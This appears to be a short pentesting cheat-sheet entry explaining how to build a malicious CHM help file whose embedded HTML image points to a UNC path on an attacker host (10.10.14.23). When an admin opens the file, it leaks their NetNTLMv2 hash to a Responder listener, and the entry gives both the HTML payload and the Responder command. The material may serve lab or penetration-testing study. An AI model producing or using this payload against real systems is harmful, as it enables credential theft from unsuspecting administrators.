 # CHM



### Malicious CHM

A CHM file is a compiled HTML file that is used for "Help Documentation".

In order to exploit this, we can create a new CHM file containing a UNC link, that will trigger a connection to our server on opening. This will allow us to steal the admin's NetNTLMv2 hashes. Consider the following HTML code.

```markup
<html>
    <body>
        <img src=\\10.10.14.23\share\abc.png />
    </body>
</html>
```

We will place the above code into instructions.html, and use the [HTML Help Workshop](http://www.helpgenerator.com/html\_help\_workshop.htm) on a Windows machine to compile the code. Download and install `htmlhelp.exe` .

Listen with responder on our localhost:

```
python Responder.py -I tun0
```

Wait for an admin to access the file and get the hash.
